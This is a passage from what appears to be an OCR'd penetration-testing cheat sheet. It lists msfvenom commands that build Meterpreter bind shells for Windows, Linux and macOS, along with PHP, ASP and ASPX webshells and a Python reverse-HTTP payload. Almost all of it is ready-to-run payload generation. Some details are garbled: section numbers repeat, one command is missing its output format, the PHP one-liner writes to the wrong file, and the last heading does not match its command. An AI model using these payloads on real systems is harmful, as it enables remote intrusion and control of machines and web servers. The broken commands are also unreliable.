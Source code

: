 `$ msfvenom -p windows/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x64.exe`

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x64.exe`

##### 2.6.2.3 - Staged Linux Meterpreter Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x64`

##### 2.6.2.3 - Staged Mac OSX Meterpreter Bind Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o met-x64`

##### 2.6.2.3 - Staged Meterpreter Bind Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x64.aspx`

##### 2.6.2.4 - Stageless Python Meterpreter Bind Shells

`$ msfvenom -p python/meterpreter_reverse_http lhost=<IP> lport=<PORT> -o met.py`
